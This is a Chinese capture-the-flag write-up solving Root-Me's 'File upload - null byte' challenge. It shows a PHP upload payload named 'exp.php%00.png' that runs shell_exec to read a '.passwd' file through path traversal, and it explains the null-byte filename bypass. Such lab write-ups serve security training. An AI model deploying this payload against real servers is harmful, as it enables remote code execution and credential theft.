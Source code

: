 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[File upload - null byte](https://www.root-me.org/en/Challenges/Web-Server/File-upload-null-byte)] [[解题报告](https://exp-blog.com/safe/ctf/rootme/web-server/file-upload-null-byte/)]

------

这题和【[Web-Server : File upload - double extensions](http://exp-blog.com/2019/01/13/pid-2985/)】、【[Web-Server : File upload - MIME type](http://exp-blog.com/2019/01/13/pid-2987/)】的渗透思路是一样的，区别在于之前的两种绕过方式均被封锁了。

这次提示的绕过方式是空字节漏洞 null byte ，依然在文件名上做文章，构造 payloads 文件 `exp.php%00.png`：

```php
<?php
	// exp.php%00.png
	// 假如这个文件上传成功，则可以利用 web 打开这个文件进行解析时进行路径穿越
	$content = shell_exec('cat ../../../.passwd');
	echo "<pre>$content</pre>";
?>
```

此文件名在上传时，可以在前端后缀欺骗，而后端在读取时遇到 `%00` 空字节会截断后面部分。

上传成功后获得 `exp.php%00.png` 文件的完整 URI，手工去掉末尾的 `%00.png` 后拼接到 URL，即可获得密码，完成挑战。


![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B18%5D%20%5B25P%5D%20File%20upload%20-%20null%20byte/imgs/01.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------

